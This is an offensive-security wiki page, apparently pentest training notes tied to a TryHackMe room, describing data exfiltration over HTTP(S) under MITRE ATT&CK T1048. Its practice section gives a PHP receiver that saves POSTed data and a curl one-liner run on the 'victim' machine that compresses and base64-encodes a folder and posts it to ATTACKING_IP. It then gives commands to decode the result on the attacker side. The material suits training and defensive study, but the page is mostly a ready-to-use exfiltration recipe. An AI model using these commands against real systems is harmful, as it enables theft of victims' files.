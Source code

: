 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - ID T1048
---
```

# Over HTTP(s)

## Theory

Exfiltration Over Alternative Protocol can be done using various common operating system utilities such as Net/SMB or FTP. On macOS and Linux curl may be used to invoke protocols such as HTTP/S

{% hint style="danger" %}
We can also use [HTTP(S) Tunneling](../pivoting/http-tunneling.md) as a good [exfiltration](../exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Curl" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

```bash
# Start server on port 80
v4resk㉿kali$ php -S 0.0.0.0:80
```

On the victim computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - Bashed | base64)" http://ATTACKING_IP/
```

On attacking machine, we can decode now decode it:

```bash
# Decode compressed folders
v4resk㉿kali$ sed -i 's/ /+/g' /tmp/http.bs64
v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}